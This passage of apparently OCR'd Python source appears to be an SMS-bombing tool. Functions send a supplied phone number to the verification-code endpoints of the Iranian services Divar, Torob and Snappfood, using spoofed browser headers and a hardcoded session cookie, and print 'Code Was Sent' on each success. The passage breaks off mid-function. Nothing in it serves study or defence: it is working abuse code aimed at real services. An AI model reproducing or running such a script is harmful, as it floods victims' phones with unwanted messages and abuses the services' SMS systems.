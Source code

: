 def divar(phone):
    divarH = {'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-type': 'application/x-www-form-urlencoded',
'origin': 'https://divar.ir',
'referer': 'https://divar.ir/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36',
'x-standard-divar-error': 'true'}
    divarD = {"phone":phone.split("+98")[1]}
    try:
        divarR = post(timeout=5, url="https://api.divar.ir/v5/auth/authenticate", headers=divarH, json=divarD).json()
        if divarR["authenticate_response"] == "AUTHENTICATION_VERIFICATION_CODE_SENT":
            print(f'{g}(Divar) {w}Code Was Sent')
            return True
    except:
        pass
    
def torob(phone):
    phone = '0'+phone.split('+98')[1]
    torobH = {'accept': '*/*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'cookie': 'abtest=next_pwa; search_session=ofwjiyqqethomevqrgzxvopjtgkgimdc; _gcl_au=1.1.805505755.1639260830; _gid=GA1.2.683761449.1639260830; _gat_UA-105982196-1=1; _ga_CF4KGKM3PG=GS1.1.1639260830.1.0.1639260830.0; _clck=130ifw1|1|ex6|0; _ga=GA1.2.30224238.1639260830',
'origin': 'https://torob.com',
'referer': 'https://torob.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'}
    try:
        torobR = get(timeout=5, url=f"https://api.torob.com/a/phone/send-pin/?phone_number={phone}", headers=torobH).json()
        if torobR["message"] == "pin code sent":
            print(f'{g}(Torob) {w}Code Was Sent')
            return True
    except:
        pass
    
def snapfood(phone):
    sfoodU = 'https://snappfood.ir/mobile/v2/user/loginMobileWithNoPass?lat=35.774&long=51.418&optionalClient=WEBSITE&client=WEBSITE&deviceType=WEBSITE&appVersion=8.1.0&UDID=39c62f64-3d2d-4954-9033-816098559ae4&locale=fa'
    sfoodH = {'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',